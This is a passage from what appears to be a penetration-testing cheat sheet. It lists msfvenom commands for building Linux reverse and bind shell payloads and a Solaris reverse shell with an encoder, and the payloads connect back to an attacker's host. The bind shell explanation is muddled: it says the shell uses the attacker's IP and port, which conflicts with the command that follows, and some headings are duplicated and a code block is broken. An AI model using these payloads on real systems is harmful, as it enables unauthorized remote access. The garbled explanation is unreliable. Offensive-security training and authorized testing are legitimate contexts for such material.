 ## Linux Payloads

### Reverse Shell

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### Bind Shell

{% code overflow="wrap" %}### Bind Shell

Bind Shell is a technique used in hacking to create a shell on a target system that listens for incoming connections. This allows the attacker to gain remote access to the target system and execute commands.

To create a bind shell using msfvenom, you can use the following command:

```plaintext
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<attacker port> -f <format> -o <output file>
```

- `<payload>`: The payload to use for the bind shell. This can be any payload supported by msfvenom.
- `<attacker IP>`: The IP address of the attacker machine.
- `<attacker port>`: The port on the attacker machine to listen for incoming connections.
- `<format>`: The format of the output file. This can be any format supported by msfvenom, such as exe, elf, or raw.
- `<output file>`: The name of the output file to save the generated shell.

Once the bind shell is created, you can transfer it to the target system and execute it. When the shell is executed, it will start listening for incoming connections on the specified IP address and port. The attacker can then connect to the shell and gain remote access to the target system.

It is important to note that using bind shells can be risky, as they expose the target system to potential attacks. Therefore, it is recommended to use bind shells only in controlled environments and with proper authorization.
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS (Solaris)

{% code overflow="wrap" %}### SunOS (Solaris)

{% code overflow="wrap" %}
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
{% endcode %}

## **MAC Payloads**
